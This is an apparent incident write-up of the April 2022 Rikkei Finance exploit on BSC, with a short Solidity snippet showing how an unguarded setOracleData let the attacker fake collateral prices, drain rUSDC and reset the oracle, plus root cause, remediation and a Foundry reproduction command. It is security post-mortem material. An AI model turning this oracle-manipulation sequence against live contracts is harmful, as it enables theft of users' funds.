

# Rikkei Finance Exploit — Attacker-Controlled Price Oracle (`setOracleData`)

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [SimplePriceOracle](sources/SimplePriceOracle_D55f01),
> [Cointroller](sources/Cointroller_00aa3a), [RBinance rBNB](sources/RBinance_157822),
> [RBep20Delegate](sources/RBep20Delegate_74D4b7).

---

## Key info

| | |
|---|---|
| **Loss** | ~$270K (rUSDC reserves drained on BSC) |
| **Vulnerable contract** | Rikkei `SimplePriceOracle` — `0xD55f01B4B51B7F48912cD8Ca3CDD8070A1a9DBa5`; rUSDC market `0x916e87…`; Cointroller `0x4f3e80…` |
| **Chain / block / date** | BSC / 16,956,474 / Apr 2022 |
| **Bug class** | Access control on oracle — `SimplePriceOracle.setOracleData(asset, source)` lets **anyone** point an asset's price feed at an arbitrary address; the attacker points rBNB's price at their own contract, inflates collateral value, and borrows all rUSDC. |

---

## TL;DR

```solidity
rbnb.mint{value: 100_000_000_000_000}();              // tiny BNB deposit
simplePriceOracle.setOracleData(address(rbnb), address(this));   // ⚠️ point oracle at attacker
rusdc.borrow(rusdc.getCash());                        // borrow ALL rUSDC
rusdc.transfer(msg.sender, rusdc.balanceOf(this));
simplePriceOracle.setOracleData(address(rbnb), address(chainlinkBNBUSDPriceFeed)); // cover tracks
```

The `SimplePriceOracle` resolves a collateral asset's price by calling `decimals()`/`latestAnswer()` on
whatever address `oracleData[asset]` holds. `setOracleData` lacks access control, so the attacker sets
rBNB's oracle source to **its own contract**, whose `decimals()` returns the Chainlink feed's decimals
while its implicit pricing lets the tiny BNB deposit register as enough collateral to borrow the entire
rUSDC cash. The attacker then resets the oracle to the legitimate Chainlink BNB/USD feed (covering
tracks / restoring state).

---

## Root cause

A **permissionless privileged oracle setter**: `setOracleData` must be admin/governance-only, but on
Rikkei it was callable by anyone. A money market's price oracle is its most security-critical input;
making it user-writable turns borrowing into a self-authorised infinite-borrow.

---

## Preconditions

- The money market holds reserves to borrow (rUSDC cash).
- A tiny amount of BNB to mint the rBNB collateral.

---

## Diagrams



---

## Remediation

1. **Gate `setOracleData`** behind admin/governance + timelock.
2. **Pin oracle sources at deployment** and require governance to change.
3. **Sanity-check oracle outputs** (deviation bounds, staleness, heartbeat).
4. **Use canonical Chainlink feeds directly**, not an indirection mapping the attacker can rewrite.

---

## How to reproduce

```bash
_shared/run_poc.sh 2022-04-Rikkei_exp --mt testExploit -vvvvv
```

- RPC: BSC archive (block 16,956,474). `foundry.toml` uses a BSC archive endpoint.
- Result: `[PASS]` — `After exploit, USDC balance of attacker` shows full rUSDC cash drained.

---

*Reference: Rikkei Finance `SimplePriceOracle.setOracleData` access control, BSC, Apr 2022 (~$270K).*
